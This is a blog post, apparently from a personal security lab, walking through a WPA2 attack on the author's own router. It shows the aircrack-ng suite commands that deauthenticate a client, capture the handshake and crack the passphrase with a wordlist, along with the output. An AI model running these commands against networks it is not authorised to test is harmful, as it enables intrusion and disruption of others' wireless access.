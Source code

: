 ```yaml
---
layout: post
title: Wifi Hacking Part 1
subtitle: Deauthentication & WPA Handshake Cracking
tags: [WIFI]
---
```


# Wifi Hacking Part 1

## WPA Handshake

A WPA handshake is a series of frames that are sent between a AP and a client to authenticate the client. These frame have the ability to be cracked using various tools. Once these frames are crack the WIFI password can be obtained for that network. I ran  `sudo airmon-ng start INTERFACE` before starting this attack chain

### Handshake Capture With De-Auth
One way to capture a WPA handshake is to DeAuth an already connected client. In the snip below I ran `airodump-ng` to target the bssid of my router `--bssid`, on channel 1 `-c 1`, and wrote it to a file called zon.cap `-w zon.cap`. The output shows that there is one client connected to the Zon AP and is sending frames.

```
sudo airodump-ng wlan0mon --bssid 30:46:9A:A6:34:76 -c 1 -w zon.cap

CH  1 ][ Elapsed: 2 mins ][ 2023-04-28 21:45 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 30:46:9A:A6:34:76  -16 100     1357     1511    0   1  130   WPA2 CCMP   PSK  Zon                                                        

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 30:46:9A:A6:34:76  FC:77:74:8E:3F:B4  -26   24e- 6e     0     1622  PMKID
```

One option to get the WPA handshake would be to wait until the client disconnects and then reconnects. This could happen if the devices leaves the AP's range and then comes back into its range, or the device reboot's, or really anything that could cause a WPA handshake. Another option is to us `aireplay-ng` and send some DeAuth frames to tell the AP to disconnect from the client. To do this, continue to run the  `airodump-ng` capture and send a DeAuth frame. In the snip below that is exactly what happens. Running `aireplay-ng` sends a DeAuth frame with `-0 1` to my access point `-a 30:46:9A:A6:34:76`, with the connected host `-c FC:77:74:8E:3F:B4` on the wlan0mon interface.

```
┌──(zonifer㉿linux)-[~]
└─$ sudo aireplay-ng -0 1 -a 30:46:9A:A6:34:76 -c FC:77:74:8E:3F:B4 wlan0mon
21:44:50  Waiting for beacon frame (BSSID: 30:46:9A:A6:34:76) on channel 1
21:44:50  Sending 64 directed DeAuth (code 7). STMAC: [FC:77:74:8E:3F:B4] [ 0|42 ACKs]
```

Back on the `airodump-ng` output up at the top `WPA handshake: 30:46:9A:A6:34:76 ` is new. Signifying that a new handshake has occurred. I have successfuly de-authenticated the host and when it tried to connect back captured the handshake.

```
CH  1 ][ Elapsed: 2 mins ][ 2023-04-28 21:45 ][ **WPA handshake: 30:46:9A:A6:34:76** 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 30:46:9A:A6:34:76  -16 100     1357     1511    0   1  130   WPA2 CCMP   PSK  Zon                                                        

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 30:46:9A:A6:34:76  FC:77:74:8E:3F:B4  -26   24e- 6e     0     1622  PMKID  
```

Sticking with the `air` suite I'll use `aircrack-ng`, a custom word list `-w wordlist.txt` (a small rockyou), an essid of Zon `-e Zon`, a bssid of 30:46:9A:A6:34:76 `-b 30:46:9A:A6:34:76`, on the recent capture called zon.cap-01.cap `zon.cap-01.cap` In just a short amount of time this is cracked and the wifi password is found. 

```
sudo aircrack-ng -w wordlist.txt -e Zon -b 30:46:9A:A6:34:76 zon.cap-01.cap

                               Aircrack-ng 1.6 

      [00:00:00] 8/102 keys tested (100.82 k/s) 

      Time left: 0 seconds                                       7.84%

                           KEY FOUND! [ Zonifer1 ]


      Master Key     : 8C 29 D8 06 12 FE 70 86 7D 7E 48 6F 09 9C 6B BC 
                       14 11 C0 96 EE DA 4B FC B4 65 DA 6E AE 08 B5 FC 

      Transient Key  : 1D F2 27 91 A5 35 41 CE FD 8B 69 C5 26 75 3A 07 
                       2A 79 8E 77 0C 01 CB 20 29 FB 0B 1B C8 3A 42 96 
                       64 F1 16 2A 83 20 8F 75 63 A8 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : BB 06 27 45 F6 9E 24 3F 76 AF 24 93 6A 3C 61 51 
```
